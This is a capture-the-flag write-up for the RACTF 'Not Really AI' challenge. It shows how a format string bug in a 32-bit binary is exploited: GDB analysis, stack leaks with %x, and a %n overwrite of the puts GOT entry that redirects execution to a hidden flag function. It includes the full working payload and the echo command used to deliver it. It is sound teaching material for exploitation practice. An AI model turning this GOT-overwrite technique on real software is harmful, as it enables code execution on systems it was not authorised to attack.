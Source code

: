 ```yaml
---
title: Not Really AI (Pwn - 200 Points)
created: '2020-06-08T07:22:58.064Z'
modified: '2020-06-09T17:49:21.090Z'
---
```


# Not Really AI (Pwn - 200 Points)

## Little Background
This is a Binary exploitaion challenge, based around a format string vulnerability.
- Misusage of the libc `printf()` function can lead to serious information leakage and even code execution.
- when we pass one argument (for example `printf(foo)`) we can:
  - leak stack addresses using `%x` or `%p` format specifiers.
  - overwrite any pointer's value using `%n` specifier (note that we can't overwrite plain stack addresses as the %n format specifier can only overwrite by reference and not by value)

For more information on format strings please check [this awesome resource](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)


## Analyzing the Binary
we fire up GDB and list all our functions:
```c
gef➤  info functions       
All defined functions: 
Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  fgets@plt
0x08049050  getegid@plt
0x08049060  puts@plt
0x08049070  system@plt
0x08049080  __libc_start_main@plt
0x08049090  setvbuf@plt
0x080490a0  setresgid@plt
0x080490b0  _start
0x080490f0  _dl_relocate_static_pie
0x08049100  __x86.get_pc_thunk.bx
0x08049110  deregister_tm_clones
0x08049150  register_tm_clones
0x08049190  __do_global_dtors_aux
0x080491c0  frame_dummy
0x080491c2  response
0x08049245  flaggy
0x08049270  main
0x080492eb  __x86.get_pc_thunk.ax
0x080492f0  __libc_csu_init
0x08049350  __libc_csu_fini
0x08049351  __x86.get_pc_thunk.bp
0x08049358  _fini
```

we notice three non-standard functions above which are: 
```c
0x080491c2  response
0x08049245  flaggy
0x08049270  main
```
by inspecting the disassembly for these three functions we find out that:
- main function will call response function
- response function maybe vulnerable to a format string vulnerability (since there is a printf call)
- the flaggy function is a dead code, our goal is to call it.

so let's start by running some input on the binary, let's test with a couple of `%x`'s:
```
hegz@hegzbox:~/ractf/Not_Really_AI$ ./nra
How are you finding RACTF?
%x %x %x %x    
I am glad you
200 f7fb9580 80491d1 25207825

We hope you keep going!
```
bingo!
we can leak stack addresses.

## Exploitation
since this binary is vulnerable to a format strings attack, we can use the `%n` specifer to overwrite any pointer value on the stack.
But can we really overwrite the return address?
The answer is No, we can't do that since it is not a pointer, it's a value and we can't overwrite values on the stack using `%n`

Our approach to this challenge will be through overwriting the "Global Offset Table"...
to put it simply, the Global Offset Table is somewhere in the bss section of the binary where shared library functions are mapped to their addresses.
If we can overwrite one of these function addresses (for example `puts()` GOT address) then, when we want to execute this function (the `puts`) it will instead execute our arbitary function.

we check our vulnrable function for candiadtes:
```c
gef➤  disas response 
Dump of assembler code for function response:
   0x080491c2 <+0>:     push   ebp
   0x080491c3 <+1>:     mov    ebp,esp
   0x080491c5 <+3>:     push   ebx
   0x080491c6 <+4>:     sub    esp,0x204
   0x080491cc <+10>:    call   0x8049100 <__x86.get_pc_thunk.bx>
   0x080491d1 <+15>:    add    ebx,0x2e2f
   0x080491d7 <+21>:    sub    esp,0xc
   0x080491da <+24>:    lea    eax,[ebx-0x1ff8]
   0x080491e0 <+30>:    push   eax
   0x080491e1 <+31>:    call   0x8049060 <puts@plt>
   0x080491e6 <+36>:    add    esp,0x10
   0x080491e9 <+39>:    mov    eax,DWORD PTR [ebx-0x8]
   0x080491ef <+45>:    mov    eax,DWORD PTR [eax]
   0x080491f1 <+47>:    sub    esp,0x4
   0x080491f4 <+50>:    push   eax
   0x080491f5 <+51>:    push   0x200
   0x080491fa <+56>:    lea    eax,[ebp-0x208]
   0x08049200 <+62>:    push   eax
   0x08049201 <+63>:    call   0x8049040 <fgets@plt>
   0x08049206 <+68>:    add    esp,0x10
   0x08049209 <+71>:    sub    esp,0xc
   0x0804920c <+74>:    lea    eax,[ebx-0x1fdd]
   0x08049212 <+80>:    push   eax
   0x08049213 <+81>:    call   0x8049060 <puts@plt>
   0x08049218 <+86>:    add    esp,0x10
   0x0804921b <+89>:    sub    esp,0xc
   0x0804921e <+92>:    lea    eax,[ebp-0x208]
   0x08049224 <+98>:    push   eax
   0x08049225 <+99>:    call   0x8049030 <printf@plt>
   0x0804922a <+104>:   add    esp,0x10
   0x0804922d <+107>:   sub    esp,0xc
   0x08049230 <+110>:   lea    eax,[ebx-0x1fcf]
   0x08049236 <+116>:   push   eax
   0x08049237 <+117>:   call   0x8049060 <puts@plt>
   0x0804923c <+122>:   add    esp,0x10
   0x0804923f <+125>:   nop
   0x08049240 <+126>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08049243 <+129>:   leave  
   0x08049244 <+130>:   ret    
End of assembler dump.
```
we see a `puts` call after the vulnerable `printf` function, that's our candiadte.
Alright, now it's time to collect all the pieces of the puzzle.

In order to start writing our exploit, we will need two pieces of information:
1. The memory address we are overwriting --> puts GOT address
2. The memory address we are overwriting with --> flaggy

to get the puts GOT address we can disassemble the puts address located at response<+117>:
```c
gef➤  disas 0x8049060
Dump of assembler code for function puts@plt:
   0x08049060 <+0>:     jmp    DWORD PTR ds:0x804c018
   0x08049066 <+6>:     push   0x18
   0x0804906b <+11>:    jmp    0x8049020
End of assembler dump.
```
then we examine the destination address of the jump instrcution above to make sure its the GOT address:
```c
gef➤  x 0x804c018
0x804c018 <puts@got.plt>:       0x08049066
```
and voila, `0x804c018` is our desired address!

now we need the flaggy function address:
```c
gef➤  x flaggy
0x8049245 <flaggy>:     0x53e58955
```
and our address is `0x8049245`
(note: don't confuse the address with its value, i.e: in the above snippet we have two hex numbers where `0x8049245` is the address/pointer and `0x53e58955` is the value of that pointer/address)

### Time to write our Exploit!

our exploit will look like this (Abstracted):
`[Address_of_puts][Address_of_flaggy][Address_of_puts entry number on the stack]`
let's dig a bit deeper into each of these parts:
___
1. `[Address_of_puts]:`
  this is the simplest of the three, and it's basically our GOT puts address which we obtained above, but encoded in little endian
  ```
  Address_of_puts = \x18\xc0\x04\x08 
  ```
  ___
2. `[Address_of_flaggy]:`
if we recall back, we mentioned that the %n specifier will write the printed character length to a specified pointer.
our goal here is to encode the Address of flaggy function as a padded address, for example we want to encode this address `0x8049245`
the format will be: `%(integer value of the address - 4)x` where the 4 is the length of the [Address_of_puts]
using any calculator or just python, we can calculate the integer value of any hex address:
```python
>>> int(0x8049245 - 4)
134517313
```
so our final payload will be: `%134517313x`
___
3. `[Address_of_puts entry number on the stack]:`
to calculate the offset of puts in our printf stack leak, we use an Egg i.e: AAAA, and follow it with some `%x`'s until we can locate it's offset.
```
hegz@hegzbox:~/ractf/Not_Really_AI$ ./nra 
How are you finding RACTF?
AAAA %x %x %x %x %x %x %x %x
I am glad you
AAAA 200 f7fb9580 80491d1 41414141 20782520 25207825 78252078 20782520
```
we see that our offset is the 4th entry after the egg, so our payload will be: `%x %x %x %n` or we can use the special feautre of printf `%4$n` which does the same thing.
___
full payload:
`\x18\xc0\x04\x08%134517313x%4$n`

we will use echo to print and pipe it to the binary (we also escape the $ and append a \x0a for a newline):
`echo -en \x18\xc0\x04\x08%134517313x%4\\$n\x0a | ./nra`
a lot of blank spaces will be printed, and eventually our flag...
`ractf{f0rmat_Str1nG_fuN}`

